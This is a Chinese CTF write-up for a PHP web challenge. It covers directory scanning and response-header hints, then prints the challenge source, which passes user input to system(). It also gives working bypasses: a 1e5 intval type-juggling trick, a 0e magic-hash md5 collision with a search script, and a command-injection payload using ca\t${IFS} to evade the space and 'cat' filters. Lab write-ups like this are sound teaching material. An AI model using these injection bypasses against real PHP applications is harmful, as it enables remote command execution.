 ![[Pasted image 20221121210931.png]]

---
首页长这样

![[Pasted image 20221121210920.png]]

很怪，标题编码出了点问题，burp里面又能正确显示

![[Pasted image 20221121211528.png]]

有报错，但没看懂.jpg

用`dirsearch`扫扫看

![[Pasted image 20221121214141.png]]
```php
/robots.txt
```
![[Pasted image 20221121212704.png]]

```php
/fAke_f1agggg.php
```
![[Pasted image 20221121212912.png]]

是假的呜呜呜～

但是翻响应头翻到了点东西

![[Pasted image 20221121212901.png]]

```php
/fl4g.php
```
![[Pasted image 20221121213632.png]]

hmmm，为啥又是烦人的编码问题啊啊啊

搜了下，最后害得先进的浏览器收拾摊子

![[Pasted image 20221121213808.png]]

---
```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

---
`level 1`的弱类型比较利用半天没过去，结果发现自己本地跑的`php`版本太高，已经修复了。

大致就是利用`$num+1`时字符串隐式转换的规则和`intval`不同来绕过
```php
/?num=1e5
```

---
`level 2`是md5弱类型比较绕过，`0e`打头的字符串弱类型比较时等价于`0`，网上有大佬写了代码枚举自身`0e`打头，`md5`值也为`0e`打头的字符串

https://blog.csdn.net/SopRomeo/article/details/106237931
```python
def run():
    i = 0
    while True:
        text = '0e{}'.format(i)
        m = md5(text)
        print(text,m)
        if m[0:2] == '0e' :
            if m[2:].isdigit():
                find=[]
                print('find it:',text,":",m)
                find = find.append(text)
        i +=1
    return find

t = run()
print(t)
```

```php
/?num=1e5&md5=0e215962017
```

---
`get flag`就氵起来了
```php
/?num=1e5&md5=0e215962017&get_flag=ls
```
![[Pasted image 20221121224622.png]]
```php
/?num=1e5&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
![[Pasted image 20221121224740.png]]

#Web #PHP #字符 #encoding #目录扫描 #HTTP #Header #代码审计 #function #bypass #md5 #Misc #shell #RCE 
